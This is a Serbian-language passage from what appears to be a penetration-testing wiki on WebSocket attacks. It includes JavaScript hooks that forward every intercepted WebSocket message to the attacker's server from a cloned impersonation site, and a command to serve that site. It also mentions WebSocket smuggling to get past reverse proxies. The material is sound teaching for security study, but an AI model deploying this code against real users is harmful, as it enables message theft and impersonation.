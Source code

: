 Kopirajte veb aplikaciju koju želite da se predstavljate (npr. .html fajlove) i unutar skripte gde se odvija komunikacija putem web socket-a dodajte ovaj kod:

```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "client_msg?m="+data, true);
xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
xhttp.send();
return messageEvent;
}
```

Sada preuzmite datoteku `wsHook.js` sa [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) i **sačuvajte je unutar fascikle sa web fajlovima**.\
Izlažući web aplikaciju i povezujući korisnika na nju, moći ćete da ukradete poslate i primljene poruke putem web soketa:

```javascript
sudo python3 -m http.server 80
```

## Trke uslova

Trke uslova u WebSockets-u su takođe stvar, [proverite ovde informacije da biste saznali više](race-condition.md#rc-in-websockets).

## Ostale ranjivosti

Pošto su WebSockets mehanizam za **slanje podataka na serversku i klijentsku stranu**, u zavisnosti od toga kako server i klijent obrađuju informacije, **WebSockets mogu se koristiti za iskorišćavanje drugih ranjivosti kao što su XSS, SQLi ili bilo koja druga uobičajena web ranjivost korišćenjem unosa korisnika putem WebSockets-a**.

## **WebSocket Smuggling**

Ova ranjivost bi vam mogla omogućiti da **zaobiđete ograničenja obrnutih proxy-ja** tako što ćete ih naterati da veruju da je **uspostavljena WebSocket komunikacija** (čak i ako to nije tačno). To bi omogućilo napadaču da **pristupi skrivenim krajnjim tačkama**. Za više informacija pogledajte sledeću stranicu:

{% content-ref url="h2c-smuggling.md" %}
[h2c-smuggling.md](h2c-smuggling.md)
{% endcontent-ref %}
